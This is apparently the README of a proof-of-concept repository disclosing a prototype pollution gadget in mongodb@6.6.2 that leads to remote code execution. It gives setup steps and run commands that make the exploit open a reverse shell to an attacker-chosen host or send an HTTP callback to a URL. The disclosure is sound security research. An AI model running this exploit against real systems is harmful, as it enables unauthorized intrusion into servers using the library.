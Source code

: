 # Prototype pollution gadget in mongodb@6.6.2

This repository contains PoC exploit for prototype pollution gadget I found in mongodb@6.6.2 NPM library. For details about the discovery and exploitation of this vulnerability as well as the solution I implemented, check out this [blog post](https://medium.com/@vuusale/brand-new-prototype-pollution-gadget-in-mongodb-leading-to-rce-8c5e0087c15e) about it. 

The exploit takes 1 or 2 arguments; IP and port for reverse shell, or a URL for making an HTTP request. The latter option is useful for testing systems where outbound traffic is blocked. Successful exploitation will result in a DNS lookup in the worst case. 

A small change I made to the exploit is adding "-d" after URL in curl command. That's because "--idleShutdownTimeoutSecs 60" string is automatically appended to the command by the library, which causes unknown option error. "-d" option turns it into the request's body, resulting in a POST request being made to the supplied URL. 

## Setup steps

1. Install nodejs and npm: `sudo apt-get install nodejs npm`
2. Install required dependencies: `npm install mongodb mongodb-client-encryption`
3. Run the exploit: `node poc.js <LHOST> <LPORT>` or `node poc.js <URL>`

## Docker installation

1. Pull the image: `docker pull vuusale/proto-gadget-mongodb`
2. Run the image: `docker run -it vuusale/proto-gadget-mongodb`
3. Run the exploit: `node poc/poc.js <LHOST> <LPORT>` or `node poc/poc.js <URL>`

